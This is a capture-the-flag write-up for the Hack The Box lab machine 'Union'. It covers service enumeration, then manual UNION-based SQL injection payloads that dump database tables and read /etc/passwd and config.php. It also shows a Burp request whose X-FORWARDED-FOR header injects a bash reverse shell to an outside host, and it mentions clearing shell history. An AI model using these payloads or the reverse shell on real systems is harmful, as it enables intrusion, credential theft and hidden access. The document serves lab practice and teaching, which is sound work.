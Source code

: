 # HTB: Union

## Engagement Overview
**Target:** Union
**Local IP:** 10.10.16.9
**Box IP:** 10.10.11.128
**Date:** 2025-07-28

---

### Objectives
- Enumerate services and web endpoints
- Identify SQL Injection vulnerability
- Extract credentials and escalate to SSH access
- Investigate privilege escalation paths
- Retrieve system flags

---

## Service Enumeration

**Nmap Results:**
```bash
nmap -sV -sC -oA nmap/union 10.10.11.128

Nmap scan report for 10.10.11.128
Host is up (0.045s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

**Gobuster Findings:**
```bash
/index.php           (Status: 200) [Size: 1220]
/config.php          (Status: 200) [Size: 0]
/challenge.php       (Status: 200) [Size: 772]
/firewall.php        (Status: 200) [Size: 13]
/.htaccess           (Status: 403)
/.htpasswd           (Status: 403)
```

---

## Methodologies

1. **Web Enumeration** using Gobuster and manual browsing.  
2. **SQL Injection Testing** – manually crafted UNION statements due to SQLMap filters.  
3. **Source Code Review** – extracted credentials from exposed `config.php`.  
4. **Authentication Bypass** – replayed crafted requests (see PoC).  
5. **Post-Exploitation** – leveraged command injection via manipulated `X-FORWARDED-FOR` header.  

---

## Initial Access

**Vulnerability Explanation:**  
The target web application was vulnerable to SQL Injection. SQLMap was filtered, requiring manual UNION statements to extract database contents and read sensitive files.

**SQL Injection Payloads:**

```sql
# curl -s -X POST http://10.10.11.128 -d "player='

-- Dump flag
union select group_concat(one) from flag;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Dump players table
union select group_concat(player) from players;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read OS release info
union select load_file('/etc/lsb-release');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read /etc/passwd
union select load_file('/etc/passwd');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read PHP config file (contains MySQL creds)
union select load_file('/var/www/html/config.php');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
```

**HTTP Request (flag.req):**

```http
POST /index.php HTTP/1.1
Host: 10.10.11.128
Content-Length: 12
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=mvi1jq6khbq7p2lh16hs7dntgm

player=union
```

**Penetration:**  
- Crafted UNION SQL statements to retrieve the flag and configuration data.  
- Extracted MySQL credentials from `config.php`.  
- Authenticated to the web application with extracted creds.  
- Application logic enabled SSH (via iptables) upon successful authentication.  

**SSH Access:**  
Logged in successfully using MySQL credentials.  

---

## Privilege Escalation

After gaining shell access, source code analysis revealed the application used an IP whitelisting function based on the `X-FORWARDED-FOR` header.  
This input was unsanitized and allowed direct **command injection**.  

By forging the header with injected commands, root shell access was obtained.  

```bash
# Burp Repeater

GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
Upgrade-Insecure-Requests: 1
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1";
```

---

## House Cleaning

- Removed enumeration artifacts.  
- Cleared shell history.  
- Left no residual processes or altered configurations.  

---

## Post-Exploitation

**Tools Utilized**  
- `nmap`  
- `gobuster`  
- Burp Suite (for request replay)  
- Manual SQL Injection (UNION)  
- SSH  

**Key Takeaways**  
- SQLMap filters can be bypassed by manual UNION-based injection.  
- Configuration files (`config.php`) often expose credentials.  
- Application logic enabling SSH through iptables demonstrates chained exploitation.  
- Blindly trusting headers (`X-FORWARDED-FOR`) introduces critical injection vectors.  
